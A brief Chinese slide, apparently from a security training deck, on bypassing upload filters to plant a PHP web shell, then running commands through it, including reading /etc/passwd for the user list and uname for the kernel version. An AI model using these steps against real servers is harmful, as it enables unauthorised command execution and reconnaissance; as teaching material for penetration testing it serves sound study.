

# 绕过过滤上传WebShell
打开上传的图片，通过查看该页面的源代码，得到图片的URL
访问http://localhost/admin/uploads/shell.php3?cmd=uname将运行在操作系统的命令信息并返回当前的内核（Linux）
cat /etc/passwd 用来得到系统的完整的用户列表
uname -a 获取当前的内核版本